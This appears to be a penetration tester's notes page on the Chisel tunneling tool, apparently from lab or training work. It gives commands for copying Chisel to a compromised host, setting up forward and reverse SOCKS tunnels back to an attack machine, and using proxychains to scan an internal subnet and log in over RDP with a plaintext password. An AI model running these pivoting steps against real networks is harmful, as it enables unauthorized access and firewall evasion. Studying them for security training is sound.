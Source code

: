 ```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

## **Installing Chisel**

### Clone Repository

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

### B**uilding the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

## Transfer Chisel Binary to Victim

**Transferring Chisel Binary with SCP, A Web Server, or other methods of choice.**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

## **Running Chisel Server - Jump Host Server**

**We start a chisel server for a client to connect to.**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

<mark style="color:red;">**NOTE:**</mark> This can be on jump host, kali host, or whichever host we need it for.&#x20;

Chisel will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_

## Running Chisel Client

<mark style="color:red;">**NOTE:**</mark> we can also run the chisel server on the Kali host.

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot - Kali Server

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

### S**tarting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

### C**onnecting the Chisel Client to our Attack Host**

```shell-session
victim@ubuntu$ ./chisel client -v <kali-ip>:1234 R:socks
```

_<mark style="color:red;">**NOTE:**</mark>** **<mark style="color:yellow;">**Chisel opens a port**</mark>** **<mark style="color:red;">**1080**</mark>** **<mark style="color:yellow;">**that we will use.**</mark>_

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Port Forwarding localhost Web Service (phpmyadmin)

If the server we popped a shell on is running phpmyadmin its work portforwarding back to our host.

```powershell
.\chisel.exe client 192.168.45.170:8081 R:8090:localhost:80
```

Navigating to localhost:8090, we can now access the admin portal

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### **Port Forwarding an Internal Web Service.**

Sometimes we may want to port foward a direct port back to our reverse port forward. We can use the syntax: **R:localport:remotehost:remoteport.**

<mark style="color:red;">**NOTE:**</mark> <mark style="color:yellow;">**This is useful if we want to access an internal**</mark>** **<mark style="color:red;">**web service**</mark>** **<mark style="color:yellow;">**on our local machine through 127.0.0.1**</mark>

```powershell
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80

2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

#### We can navigate to 127.0.0.1 and see the portforwarded web service

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We may need to upate our /etc/hosts to fit the domain name.

